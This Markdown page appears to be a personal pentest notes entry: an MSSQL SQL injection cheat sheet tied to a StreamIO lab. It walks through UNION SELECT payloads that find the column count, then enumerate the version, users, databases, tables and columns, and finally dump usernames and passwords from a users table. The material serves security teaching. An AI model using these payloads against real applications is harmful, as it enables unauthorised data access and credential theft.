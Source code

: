```yaml
---
description: >-
  SQL Injection MSSQL
title:  SQL Injection MSSQL            # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, SQL Injection - MSSQL]                     # Change Templates to Writeup
tags: [exploitation, sql injection, mssql, union select]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Simple Commands
Simple enumeration is to be abused with following queries such queries where taken from [PayloadAllTheThings](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet):
```bash
# Version
SELECT @@version
# DB user
SELECT user_name();
SELECT system_user;
SELECT user;
# Sleep function
waitfor delay '0:0:10'--
```

### Identifying the number of columns

First of all we need to identify the behavior of the database with sqli payloads, a good idea is to enumerate columns with sqli queries:
#### ORDER BY
The number of columns might vary so we need to change the value of the query (1,2,3,4, etc.) until the response is correct:
```bash
' ORDER BY 10-- -
```
#### UNION SELECT
> Sometimes the results are not shown on the output of the request, so it is a good idea to try with a payload that would responde correctly before of the payload, if the vulnerability is on a search bar, try to add a word that retrieves some results, for example `10` before of the payload `' union select 1-- -`
{: .prompt-info }
```bash
' union select 1-- -
' union select 1,2-- -
' union select 1,2,3-- -
' union select 1,2,3,4-- -
' union select 1,2,3,4,5-- -
' union select 1,2,3,4,5,6-- -
```

> If there is a successsful answer then we need to identify which column retrieves information from the database.
{: .prompt-tip }

#### Version
```bash
' union select 1,@@version,3,4,5,6 -- -
```
![Database_Version](/assets/img/Pasted-image-20230426233714.png)

#### Database user
You can use any of the options below:
```bash
' union select 1,CURRENT_USER,3,4,5,6 -- -
' union select 1,user_name(),3,4,5,6 -- -
' union select 1,system_user,3,4,5,6 -- -
' union select 1,user,3,4,5,6 -- -
```
![Database_User](/assets/img/Pasted-image-20230426234307.png)

#### Database name
It is of upmost importance to gather the name of the database being used:
```bash
' union select 1,DB_NAME(),3,4,5,6 -- -
```
![Database_Name](/assets/img/Pasted-image-20230426234212.png)

#### Tables
Once that we get the name of the database we can proceed to gather the tables on such database:
```bash
# First and simple option is retrieving all the info from a table
' union select 1,name,3,4,5,6 FROM STREAMIO..sysdatabases-- -
``` 
![Database_Tables](/assets/img/Pasted-image-20230426235140.png)

Another option is to retrieve the tables on a simple column with the function [STRING_AGG](https://www.mssqltips.com/sqlservertutorial/9371/sql-string-agg-function/):
```bash
' union select 1,(SELECT STRING_AGG(name, ', ') FROM STREAMIO..sysobjects),3,4,5,6-- -
```
![Database_Tables](/assets/img/Pasted-image-20230426235753.png)

#### Columns
Then we extract the column names, we can use a WHERE condition clause to extract only the columns from an specific table in this case the "users" table:
```bash
' union select 1,name,3,4,5,6 FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name = 'users')-- -
```
![Database_Columns](/assets/img/Pasted-image-20230427000937.png)

#### Data within the tables
Finally once that we gather all the info we then proceed to retrieve information from the table:
```bash
' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```
Examples: 
[StreamIO](https://shuciran.github.io/posts/Streamio/#fnref:sql-injection-mssql)